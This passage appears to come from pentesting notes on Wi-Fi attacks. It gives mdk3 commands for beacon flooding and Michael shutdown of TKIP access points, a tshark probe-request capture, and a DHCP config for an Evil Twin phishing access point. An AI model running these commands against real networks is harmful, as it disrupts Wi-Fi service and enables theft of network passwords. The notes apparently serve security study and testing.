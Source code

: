 #### Beacon Flood Mode Attack

The beacon frame is a frame that contains information about the access point such as the channel where the AP is working, ciphers, protocols, etc.

These type of beacons are transmitted in plain as other stations and devices need these frames to extract information in order to connect them.

The idea of Beacon Flood Attack such as his name says, flood a large number of beacons in order to create a lot of ESSID in the same Chanel as the target AP in order to make it invisible for users.

```
# Create a list of AP names:
MyNetwork1
MyNetwork2
MyNetwork3
MyNetwork4
MyNetwork5
MyNetwork6
MyNetwork7
MyNetwork8
MyNetwork9
MyNetwork10

mdk3 <IFACE> b -f networks.txt -a -s 1000 -c <CHANNEL>   # -a -> WPA2  -s <speed>
```

#### Michael Shutdown Explotation

Can shut down APs using TKIP encryption and QoS Extension with 1 sniffed and 2 injected QoS Data Packets, but less effective.

```
mdk3 <IFACE> m -t <BSSID>
```

## Evil Twin

One of the most common techniques to obtain the password of a wireless network via phishing. It's common that the devices emit Probe Request frames when their are not associated to any AP. These Probe Request frame ares packets that contain information about which SSID the device was connected before. So we can abuse of that information in order to create a Fake AP with the same SSID.

```
thark -i <IFACE> -Y "wlan.fc.type_subtype==4" 2>/dev/null
   1 0.000000000 Apple_7d:1f:e9 → Broadcast    802.11 195 Probe Request, SN=1063, FN=0, Flags=........C, SSID=MOVISTAR_PLUS_2A51
    2 0.019968349 Apple_7d:1f:e9 → Broadcast    802.11 195 Probe Request, SN=1064, FN=0, Flags=........C, SSID=MOVISTAR_PLUS_2A51
```

### Creating DHCP file

/etc/dhcpd.conf

```
authoritative;
default-lease-time 600;
max-lease-time 7200;
subnet 192.168.1.128 netmask 255.255.255.128 {
option subnet-mask 255.255.255.128;
option broadcast-address 192.168.1.255;
option routers 192.168.1.129;
option domain-name-servers 8.8.8.8;
range 192.168.1.130 192.168.1.140;
}
```
